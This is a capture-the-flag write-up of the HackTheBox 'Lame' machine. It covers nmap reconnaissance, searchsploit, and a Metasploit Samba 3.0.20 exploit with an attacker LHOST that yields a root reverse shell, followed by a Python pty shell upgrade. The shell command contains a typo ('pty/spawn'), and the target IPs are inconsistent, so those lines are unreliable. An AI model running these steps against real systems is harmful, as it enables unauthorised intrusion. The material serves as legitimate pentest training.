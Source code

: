 ```yaml
---
title:      'Lame'
date:       '2022-01-21'
tag:        'htb'
subtag1:    'Linux'
subtag2:    'CVE'
subtag3:    'Samba'
---
```


###### Lame is a retired easy-ranked Linux machine on HacktheBox.


### INFORMATION GATHERING

---
##### nmap scan

![nmap scan](/images/boxes/lame/nmap.png "nmap scan")
```bash
nmap -sC -sV -Pn -oA Lame 10.10.10.40
```
Here we discover:
- vsftp 2.3.4 _(Anonymous Login permitted)_
- OpenSSH 4.7
- Samba 3.0.20

---
##### searchsploit

![searchsploit samba](/images/boxes/lame/searchsploit_samba.png "searchsploit samba")
```bash
searchsploit Samba 3.0.20
```
###### The searchsploit command queries the _/usr/share/exploitdb_ directory for possible exploits.

Here we discover:
- A Metasploit Command Execution exploit written in Ruby _(unix/remote/16320.rb)_


### EXPLOITATION

---
##### metasploit

![metasploit search](/images/boxes/lame/msf_search.png "metasploit search")
```bash
search Samba 3
use 4
```
We select the exploit discovered via the _searchsploit_ command
![metasploit options](/images/boxes/lame/msf_options.png "metasploit options")
```bash
set RHOSTS 10.10.10.3
set LHOST 10.10.14.19 
```
ready to exploit

---
##### exploited

![exploited](/images/boxes/lame/msf_exploit.png "exploited")
running the exploit pops a root shell

### POST EXPLOITATION

---
##### upgrade dumb shell
![upgrade dumb shell](/images/boxes/lame/upgrade_shell.png "upgrade dumb shell")
```bash
which python
python -c 'import pty;pty/spawn("/bin/bash")'
```
we find that python is installed and use the _pty_ module to spawn an interactive shell

---
##### exploration
![exploration](/images/boxes/lame/exploration.png "exploration")
we discover a user named _makis_

---
##### user.txt
![user flag](/images/boxes/lame/user_flag.png "user flag")
user flag was in the home directory of user _makis_

---
##### root.txt
![root flag](/images/boxes/lame/root_flag.png "root flag")
root flag was in the root directory

### SUMMARY

---
Lame is arguably the easiest Linux box on HackTheBox and requires the use of a common Samba vulnerability to immediately gain an elevated shell. It is, like _Blue_, a great introductory box for anyone interested in learning pentesting techniques as the barrier to entry is low, and the results are quick.
